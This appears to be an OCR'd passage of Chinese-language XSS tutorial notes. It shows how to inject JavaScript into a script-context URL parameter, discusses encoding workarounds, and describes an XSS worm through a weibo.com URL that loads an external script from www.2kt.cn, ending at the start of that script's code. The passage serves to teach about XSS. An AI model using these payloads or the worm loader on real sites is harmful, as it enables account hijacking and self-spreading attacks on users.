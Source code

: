 ```
```
假设，后台获取到这个name值后将其放进了js中(可以通过实验，查看源码，看后台将获取到的数据放到哪里了)
```js
<script>
...
{
    ...
    pageAbsUrl:"...name=abc%3Cscript%3Ealert('hello world')%3C/script%3E"
    ...
}
...
</script>
```
因为，已经有了`<script>`标签，所以传入的不需要 `<script>` 标签了，根据放入的位置拼装执行代码
最后可执行的代码的样子
```js
<script>
...
{
    ...
    pageAbsUrl:"...name=abc",alert('hello world')//"
    ...
}
...
</script>
```
所以需要将url改成
```
www.basic.com/index.php?r=article/post&name=abc",alert('hello world')//
```
又一个问题，经过自动编译处理将会把 `"` 变成 `%22` 导致无法执行
这就需要使用 HTML实体编码
**HTML实体编码**
查看HTML实体编码表
`"`可以使用 `&quot;` 代替
但是url会根据 `&` 进行参数分割
可以使用url编码将 `&` 编码 `%26`
**url编码**
通过查看URL编码表
js的 `escape()`方法

最后，因为获取内容放在 `<script>` 中，在js环境中是不认识HTML实体编码的，所以还是无法执行
但是，如果没有在 `<script>` 的是可行的

#### xxs蠕虫攻击
xxs worm
页面中插入js代码，发布，当用户访问的时候，又会以访问用户的身份发布文章，感染性极强

示例
```js
http://weibo.com/pub/star/g/xyyyd%22%3E%3Cscript%20src=//www.2kt.cn/images/t.js%3E%3C/script%3E?type=update
```
使用js的 `uneacape()` 将转义一下可以看到
```
"http://weibo.com/pub/star/g/xyyyd"><script src=//www.2kt.cn/images/t.js></script>?type=update"
```
当用户访问这个页面的时候将会去加载 `t.js`,在t.js中实现逻辑
```js
function createXHR(){
	return window.XMLHttpRequest?
	new XMLHttpRequest():
	new ActiveXObject("Microsoft.XMLHTTP");
}
function getappkey(url){
	xmlHttp = createXHR();
```